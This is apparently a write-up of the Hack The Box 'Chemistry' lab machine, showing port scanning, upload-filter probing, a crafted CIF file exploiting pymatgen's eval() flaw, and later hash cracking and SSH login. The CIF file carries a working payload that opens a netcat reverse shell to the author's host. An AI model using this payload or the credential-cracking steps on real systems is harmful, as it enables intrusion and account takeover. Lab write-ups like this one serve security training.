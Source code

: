 # Hi! Here I'll explain how i managed to solve Chemistry machine from HTB plaform.
First, let's as usual add IP to /etc/hosts file.

<img src="images/1.png" />

No let's scan machine with nmap scanner.

<img src="images/2.png" />

We can see, that 22 and 5000 ports are opened.
Let's visit http://chem.htb:5000

<img src="images/3.png" width="1400" height="600"/>

It seems like we can upload some CIF files here, which can possible tell us about first attack vector - file upload.

Let's pass registration form and drive deep into functionality of this web-page.

<img src="images/4.png" />

As i said earlier, we can upload here CIF files. Crystallographic Information File (CIF) is a standard text file format for representing crystallographic information. Let's download example of file, which we can upload and explore it's code.


<img src="images/5.png" />

It doesn't tell us much tbh.
For me next step was trying to understand, which file extensions I can upload. If I can upload .php files, it possibly can give me reverse shell. But none of extensions besides .cif. I tried to bypass both whitelist and blacklist techniques with Burp Intruder, but it didn't help either.

<img src="images/6.png" />

<img src="images/7.png" />

<img src="images/8.png" />

After I tried to google some public known vulnerabilities in CIF-files code. And found [this](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f).

<img src="images/9.png" />

As we can see, this PoC tells us, that we can use vulnerability in code of pymatgen python lib to run commands on server's backend. Pymatgen is an analytical tool that can study materials such as metals, polymers, and crystals. However, a recent security vulnerability exists in one of its methods threatens the integrity of pymatgen's use to take a description of how a material is transformed and turned into a language the computer can understand and work with.
This vulnerability allows the execution of arbitrary code when processing untrusted input, as the method insecurely utilizes `eval()`. 

`eval()` is a function to execute arbitrary Python code, giving room for code injection attacks in the system .So, we can try to get reverse shell by running netcat commands. [Here](https://www.revshells.com/) you can find custom different payloads for different target systems. But interesting thing is that i tried almost every payload type, but it didn't work. The reason was in spaces in CIF file code. When I removed them, all worked correctly. Let's take close look at code of payload file.
```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
 _space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.16.54 4444 -e /bin/bash");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Here we try to execute command "```busybox nc 10.10.16.54 4444 -e /bin/bash```" in order to get reverse shell to our machine.
Let's upload file with this code.

<img src="images/10.png" />

And now we can click 'view', but before let's run netcat in listening mode on 4444 port.

<img src="images/11.png" />

Great! We've got RCE. Let's explore target file system.

<img src="images/12.png" />

We don't have enough rights to cat user.txt. Ok, let's explore more. 


<img src="images/13.png" />

We can see interesting .db file, which we can read using sqlite3 client.
Here we can find users table with username and hash in it.

<img src="images/14.png" />

Earlier we saw rosa home directory, let's try to crack her password using [CrackStation](https://crackstation.net/).

<img src="images/15.png" />

And now let's try to use ssh to connect under rosa user.

<img src="images/16.png" />

Cool! We can cat user.txt and get user flag :)
